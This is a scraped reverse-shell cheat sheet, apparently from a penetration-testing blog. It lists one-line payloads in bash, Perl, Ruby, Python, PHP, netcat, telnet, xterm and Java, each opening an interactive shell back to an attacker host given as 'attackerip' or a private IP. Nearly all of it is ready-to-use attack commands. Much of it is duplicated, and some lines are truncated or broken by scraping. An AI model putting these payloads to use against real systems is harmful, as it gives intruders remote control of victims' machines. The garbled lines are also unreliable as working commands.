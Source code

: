 ## Reverse Shells

**Reverse Shellcode:**

BASH:

```
bash -i >& /dev/tcp/192.168.23.10/443 0>&1
exec /bin/bash 0&0 2>&0
exec /bin/bash 0&0 2>&0
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
exec 5<>/dev/tcp/attackerip/4444 cat <&5 | while read line; do $line 2>&5 >&5; done # or: while read line 0<&5; do $line 2>&5 >&5; done
exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done # or:
while read line 0<&5; do $line 2>&5 >&5; done
/bin/bash -i > /dev/tcp/attackerip/8080 0<&1 2>&1
/bin/bash -i > /dev/tcp/192.168.23.10/443 0<&1 2>&1
```

PERL:

Shorter Perl reverse shell that does not depend on /bin/sh:

```
perl -MIO -e ‘$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,”attackerip:4444″);STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;’
perl -MIO -e ‘$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,”attackerip:4444″);STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;’
```

⧉ Copied!

If the target system is running Windows use the following one-liner:

```
perl -MIO -e ‘$c=new IO::Socket::INET(PeerAddr,”attackerip:4444″);STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;’
perl -MIO -e ‘$c=new IO::Socket::INET(PeerAddr,”attackerip:4444″);STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;’
perl -e ‘use Socket;$i=”10.0.0.1″;$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’
perl -e ‘use Socket;$i=”10.0.0.1″;$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’
```

**RUBY**:

Longer Ruby reverse shell that does not depend on /bin/sh:

```
ruby -rsocket -e ‘exit if fork;c=TCPSocket.new(“attackerip”,”4444″);while(cmd=c.gets);IO.popen(cmd,”r”){|io|c.printio.read}end’
ruby -rsocket -e ‘exit if fork;c=TCPSocket.new(“attackerip”,”4444″);while(cmd=c.gets);IO.popen(cmd,”r”){|io|c.printio.read}end’
```

⧉ Copied!

If the target system is running Windows use the following one-liner:

```
ruby -rsocket -e ‘c=TCPSocket.new(“attackerip”,”4444″);while(cmd=c.gets);IO.popen(cmd,”r”){|io|c.print io.read}end’
ruby -rsocket -e ‘c=TCPSocket.new(“attackerip”,”4444″);while(cmd=c.gets);IO.popen(cmd,”r”){|io|c.print io.read}end’
ruby -rsocket -e’f=TCPSocket.open(“attackerip”,1234).to_i;exec sprintf(“/bin/sh -i <&%d >&%d 2>&%d”,f,f,f)’
ruby -rsocket -e’f=TCPSocket.open(“attackerip”,1234).to_i;exec sprintf(“/bin/sh -i <&%d >&%d 2>&%d”,f,f,f)’
```

⧉ Copied!

**PYTHON**:

python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect((“10.0.0.1″,1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\[“/bin/sh”,”-i”\]);’
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect((“10.0.0.1″,1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\[“/bin/sh”,”-i”\]);’

**PHP**:

This code assumes that the TCP connection uses file descriptor 3.

```
php -r ‘$sock=fsockopen(“10.0.0.1″,1234);exec(“/bin/sh -i <&3 >&3 2>&3″);’
php -r ‘$sock=fsockopen(“10.0.0.1″,1234);exec(“/bin/sh -i <&3 >&3 2>&3″);’
```

⧉ Copied!

If you would like a PHP reverse shell to download, try this link on pentestmonkey.net -> LINK

**NETCAT:**

Other possible Netcat reverse shells, depending on the Netcat version and compilation flags:

```
nc -e /bin/sh attackerip 4444
nc -e /bin/sh 192.168.37.10 443
```

⧉ Copied!

If -e option is disabled, try this

```
mknod backpipe p && nc 192.168.23.10 443 0<backpipe | /bin/bash 1>backpipe
mknod backpipe p && nc attackerip 8080 0<backpipe | /bin/bash 1>backpipe
/bin/sh | nc attackerip 4444
/bin/sh | nc 192.168.23.10 443
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/
rm -f /tmp/p; mknod /tmp/p p && nc 192.168.23.10 444 0/tmp/
```

⧉ Copied!

If you have the wrong version of netcat installed, try

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.23.10 >/tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

⧉ Copied!

TELNET:

If netcat is not available or /dev/tcp

```
mknod backpipe p && telnet attackerip 8080 0<backpipe | /bin/bash 1>backpipe
mknod backpipe p && telnet attackerip 8080 0<backpipe | /bin/bash 1>backpipe
```

⧉ Copied!

**XTERM:**

Xterm is the best..

To catch incoming xterm, start an open X Server on your system (:1 – which listens on TCP port 6001). One way to do this is with Xnest: It is available on Ubuntu.

```
Xnest :1 # Note: The command starts with uppercase X
Xnest :1 # Note: The command starts with uppercase X
```

⧉ Copied!

Then remember to authorise on your system the target IP to connect to you:

```
xterm -display 127.0.0.1:1 # Run this OUTSIDE the Xnest, another tab xhost +targetip # Run this INSIDE the spawned xterm on the open X Server
xterm -display 127.0.0.1:1 # Run this OUTSIDE the Xnest, another tab
xhost +targetip # Run this INSIDE the spawned xterm on the open X Server
```

⧉ Copied!

If you want anyone to connect to this spawned xterm try:

```
xhost + # Run this INSIDE the spawned xterm on the open X Server
xhost + # Run this INSIDE the spawned xterm on the open X Server
```

⧉ Copied!

Then on the target, assuming that xterm is installed, connect back to the open X Server on your system:

```
xterm -display attackerip:1
xterm -display attackerip:1
```

⧉ Copied!

Or:

```
$ DISPLAY=attackerip:0 xterm
$ DISPLAY=attackerip:0 xterm
```

⧉ Copied!

It will try to connect back to you, attackerip, on TCP port 6001.
Note that on Solaris xterm path is usually not within the PATH environment variable, you need to specify its filepath:

```
/usr/openwin/bin/xterm -display attackerip:1
/usr/openwin/bin/xterm -display attackerip:1
```

⧉ Copied!

**PHP**:

```
php -r ‘$sock=fsockopen(“192.168.0.100″,4444);exec(“/bin/sh -i <&3 >&3 2>&3″);’
```

⧉ Copied!

**JAVA:**

```
r = Runtime.getRuntime()
p = r.exec([“/bin/bash”,”-c”,”exec 5<>/dev/tcp/192.168.0.100/4444;cat <&5 | while read line; do $line 2>&5 >&5; done”] as String[])
p.waitFor()
```

⧉ Copied!